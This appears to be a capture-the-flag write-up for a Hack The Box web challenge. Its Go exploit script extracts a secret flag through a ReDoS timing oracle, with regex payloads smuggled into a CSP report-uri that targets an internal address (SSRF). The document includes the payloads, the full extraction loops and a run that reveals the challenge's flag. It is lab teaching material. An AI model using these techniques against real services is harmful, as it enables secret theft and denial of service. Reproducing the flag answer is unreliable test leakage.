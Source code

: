 # Hack The Box. Challenges. Web. ExpressionalRebel

Challenge write-up: https://7rocky.github.io/en/ctf/htb-challenges/web/expressionalrebel

### `redos.go`

This script is made to extract the flag character by character using ReDoS. We have an time-based oracle to know if a certain character is correct or not.

Basically, the server allows us to enter a Regular Expression (RegEx) that will be tested agains the flag. We can try characters so that if the character is wrong, the RegEx algorithm finishes quickly and if it is right it takes a long time.

The server uses a Node.js module called [`time-limited-regular-expressions`](https://www.npmjs.com/package/time-limited-regular-expressions) to limit the execution time to 2 seconds.

There is also a Server-Side Request Forgery attack, but it will not be explained here (take a look at the [write-up](https://7rocky.github.io/en/ctf/htb-challenges/web/expressionalrebel) for more information).

We have the following proof of concept (using the test flag: `HTB{f4k3_fl4g_f0r_t3st1ng}`):

- Sending `^HTB\{f((((((.)*)*)*)*)*)*!"}` as RegEx returns a response in 2,04 seconds.
- Sending `^HTB\{a((((((.)*)*)*)*)*)*!"}` as RegEx returns a response in 0,04 seconds.

With this fact we can extract a part of the flag (called `frontflag`):

```go
frontflag := ""
matched := true

for matched {
  matched = false

  for _, c := range CHARS {
    testPayload := fmt.Sprintf(`{"csp": "report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{%s(((((((.)*)*)*)*)*)*)*!"}`, frontflag+string(c))

    if postDuration(testPayload) >= 2000 {
      frontflag += string(c)
      fmt.Printf("Frontflag: HTB{%s\r", frontflag)
      matched = true
      break
    }
  }

  if strings.HasSuffix(frontflag, "__") {
    frontflag = frontflag[:len(frontflag)-2]
    break
  }
}

fmt.Printf("[+] Frontflag: HTB{%s\n", frontflag)
```

Where `postDuration` performs a POST request and returns the response time in milliseconds:

```go
var httpClient = &http.Client{}

func postDuration(testPayload string) int64 {
	jsonData := []byte(testPayload)

	req, _ := http.NewRequest("POST", "http://"+host+"/api/evaluate", bytes.NewBuffer(jsonData))

	req.Header.Set("Content-Type", "application/json")

	t := time.Now()
	_, err := httpClient.Do(req)

	if err != nil {
		panic(err)
	}

	return time.Since(t).Milliseconds()
}
```

We continue adding characters to the flag until no more characters are correctly detected (if there is a match with two sequential underscores).

It is not possible to extract the complete flag with this method, so we need to extract the flag from right to left as well. Here we have another proof of concept:

- Sending `^HTB\{.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?[^g]\}$` as RegEx returns a response in 2,04 seconds.
- Sending `^HTB\{.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?.?[^a]\}$` as RegEx returns a response in 0,04 seconds.

And thus we have a similar method to extract the rest of the flag (called `backflag`):

```go
backflag := ""
matched = true

for matched {
  matched = false

  for _, c := range CHARS {
    testPayload := fmt.Sprintf(`{"csp": "report-uri http://0x7f000001:1337/deactivate?secretCode=^HTB\\{%s[^%s]%s\\}$"}`, strings.Repeat(".?", 50-len(backflag)), string(c), backflag)

    if postDuration(testPayload) >= 2000 {
      backflag = string(c) + backflag
      fmt.Printf("Backflag: %s}\r", backflag)
      matched = true
      break
    }
  }

  if strings.HasPrefix(backflag, "__") {
    backflag = backflag[2:]
    break
  }
}

fmt.Printf("[+] Backflag: %s}\n", backflag)
```

Finally, there is a function called `joinFlags` to merge both results in a unique one if possible:

```go
func joinFlags(frontflag, backflag string) {
	i := 1

	for ; strings.Index(frontflag, backflag[:i]) != -1; i++ {
	}

	i--

	if !strings.HasSuffix(frontflag, backflag[:i]) {
		fmt.Println("[*] Could not find a match between frontflag and backflag")
		fmt.Printf("[!] Possible flag: HTB{%s%s}\n", frontflag, backflag)
		fmt.Printf("[!] Possible flag: HTB{%s_%s}\n", frontflag, backflag)
		fmt.Printf("[!] Flag results: HTB{%s ...\n%s... %s}\n", frontflag, strings.Repeat(" ", 23+len(frontflag)), backflag)
	} else {
		fmt.Println("[*] Found a match between frontflag and backflag")
		index := strings.Index(frontflag, backflag[:i])
		flag := "HTB{" + frontflag[:index] + backflag + "}"
		fmt.Println("[!] Flag:", flag)
	}
}
```

This is an example of execution:

```console
$ go run redos.go 167.99.202.131:31069
[+] Frontflag: HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r
[+] Backflag: ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}
[*] Found a match between frontflag and backflag
[!] Flag: HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}
```

